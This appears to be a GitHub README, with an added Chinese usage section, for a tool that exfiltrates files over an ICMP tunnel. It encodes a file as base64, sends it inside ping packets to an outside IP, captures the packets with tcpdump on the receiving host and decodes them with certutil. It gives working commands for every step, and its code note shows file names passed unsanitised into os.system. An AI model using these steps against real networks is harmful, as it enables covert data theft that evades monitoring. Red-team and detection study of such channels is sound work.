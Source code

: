 #增加使用说明 by Eleven

1、在接收机器上运行tcpdump监听并接收icmp数据包

tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt
参数说明：

（1）-i eth0　　　　　　　　　　　　　　　　　　　　　　　　　　　 指定监听的网卡

（2）icmp and icmp[icmptype]=icmp-echo -XX -vvv　　　　　　   监听策略，过滤出icmp数据包

（3）-w output.txt　　　　　　　　　　　　　　　　　　　　　　　　指定输出文件为output.txt

2、通过下面的命令运行工具脚本，发送文件，它会自动转换为base64编码发送

sudo python icmp_transmitter.py test x.x.x.x
 参数说明：

（1）test:　　　　我们要发送的文件

（2）x.x.x.x:　　 指定要发送给哪个主机的ip

注：原来这个工具是windows下的，用了certutil进行了编码，由于我这里用的linux，所以对他的代码进行了些许修改，即把原来init函数中的

os.system("certutil -encode  "+ file +" test.txt")
改为了
os.system("base64  "+ file +" > test.txt")
使用windows的同学就不用改了



****************************************************万恶分界线*****************************************************
# Data Ex-filteration over ICMP Tunnel

__icmp_transmitter.exe__ is an executable used to send files on one system to another using icmp ping packets. The tool first converts the file(an exe, image, document etc) to base64 encoded text. This will then send the ping requests each with 64 characters of data taken from the base64 encoded text file. The tools needs a packet capture softwares on the other side to capture and record all the ping packets as .pcap or .txt files. Use the parser.sh to quickly parse the pcap file and have the text file with base64 encoded data. Once this is done, use certutil to convert back the text file into respective file format.

### Usage:

```icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

Use certutil to decode the base64 data to respective format

```certutil -decode "base_64_encoded_textfile" "file.extention"```

The files and source code can be downloaded from: https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate/releases
